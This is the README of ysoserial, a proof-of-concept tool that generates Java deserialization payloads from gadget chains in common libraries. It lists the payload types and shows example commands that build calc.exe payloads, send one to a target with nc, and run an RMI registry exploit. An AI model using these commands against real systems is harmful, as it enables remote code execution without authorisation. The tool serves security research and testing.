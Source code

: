 
# ysoserial 

[![Join the chat at https://gitter.im/frohoff/ysoserial](https://badges.gitter.im/frohoff/ysoserial.svg)](https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.4-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
        Available payload types:
                BeanShell1 [org.beanshell:bsh:2.0b5]
                CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
                CommonsCollections1 [commons-collections:commons-collections:3.1]
                CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections3 [commons-collections:commons-collections:3.1]
                CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
                Groovy1 [org.codehaus.groovy:groovy:2.3.9]
                Jdk7u21 []
                Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

## Examples

```shell
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.4-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) .

Note that GitHub-hosted releases were removed in compliance with the [GitHub Community Guidelines](https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

